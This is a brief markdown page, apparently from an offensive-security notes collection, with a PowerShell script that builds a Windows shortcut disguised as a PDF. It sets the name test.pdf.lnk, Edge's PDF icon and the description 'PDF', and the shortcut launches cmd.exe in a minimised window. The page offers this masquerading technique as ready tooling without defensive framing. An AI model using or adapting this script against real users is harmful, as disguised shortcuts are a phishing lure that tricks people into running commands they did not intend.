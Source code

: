 ```yaml
---
description: Powershell Script to Generate a LNK file
---
```


# LNK Script

Powershell script to generate an LNK file that looks like a PDF

`$path = "$([Environment]::GetFolderPath('Desktop'))\test.pdf.lnk"` \
`$wshell = New-Object -ComObject Wscript.Shell` \
`$shortcut = $wshell.CreateShortcut($path)` \
`$shortcut.IconLocation = "%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe,13"` \
`$shortcut.TargetPath = "cmd.exe"` \
`$shortcut.WorkingDirectory = ""` \
`$shortcut.Description = "PDF"` \
`$shortcut.WindowStyle = 7` \
`$shortcut.Save()`
